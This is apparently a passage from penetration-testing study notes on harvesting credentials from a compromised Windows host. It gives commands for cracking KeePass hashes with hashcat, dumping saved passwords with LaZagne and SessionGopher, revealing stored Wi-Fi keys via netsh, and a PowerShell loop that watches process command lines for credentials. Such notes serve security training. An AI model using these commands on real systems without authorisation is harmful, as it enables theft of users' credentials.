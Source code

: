 Now we can use the 13400 mode from hashcat:
```console
hashcat -m 13400 keepass_hash <WORDLIST>
```

### Email

We can use some tool like [MailSniper](https://github.com/dafthack/MailSniper).

### LaZagne 

[This](https://github.com/AlessandroZ/LaZagne) tool could help us:
```console
PS C:\zeropio> .\lazagne.exe all
```

### SessionGopher

[This](https://github.com/Arvanaghi/SessionGopher) tool extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials:
```console
PS C:\htb> .\SessionGopher.ps1
PS C:\Tools> Invoke-SessionGopher -Target <COMPUTER NAME>
```

### Wifi Passwords 

If we obtain local admin access to a user's workstation with a wireless card, we can list out any wireless networks they have recently connected to:
```console
C:\zeropio> netsh wlan show profile
```

Depending on the network configuration, we can retrieve the pre-shared key:
```console
C:\zeropio> netsh wlan show profile <USER PROFILE> key=clear
```

---

# Additional Techniques 

## Interacting with Users 

If Wireshark is installed, unprivileged users may be able to capture network traffic. If Wirehsark is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up. We can also use the [net-creds](https://github.com/DanMcInerney/net-creds). 

When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script:
```
while($true)
{

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2

}
```
